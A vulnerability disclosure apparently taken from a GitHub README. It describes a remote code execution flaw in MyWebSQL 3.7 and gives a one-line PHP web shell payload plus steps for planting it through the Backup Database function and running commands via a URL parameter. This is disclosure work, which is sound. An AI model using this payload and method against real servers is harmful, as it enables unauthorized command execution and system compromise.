 ## MyWebSQL ver 3.7 remote code execution (RCE) vulnerability Description
- Author: YU-HSIANG HUANG, YUNG-HAO TSENG, Eddie TC CHANG
- Contact: huang.yuhsiang.phone@gmail.com; 0xuhaw@gmail.com; eddietcchang@gmail.com
---
### Testing Target
- Product: MyWebSQL
- Version: 3.7
- Official Website: http://mywebsql.net/
- Github: https://github.com/Samnan/MyWebSQL

### Summary
MyWebSQL version in 3.7 has remote code execution (RCE) vulnerability.

### Description
MyWebSQL version in 3.7 has remote code execution (RCE) vulnerability after write a shell code in database and execute `Backup Database` function.
 
### Concept
1. Create a test table (code) and write a shell code in this table.
 **Shell code example**: `<?php system($_GET[cmd]); ?>`
![](./png/1.png)
2. Execute `Backup Database` function and modify Backup filename as `shell.php`.
![](./png/2.png)
3. Browse `(domain)/mywebsql/backups/shell.php?cmd=XXX`. For instance, `cmd=ipconfig` as below figure.
![](./png/3.png)
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE5MDA5MDgwMDgsLTE5MTcyOTM4ODcsMT
EwMjQ0NzAxOF19
-->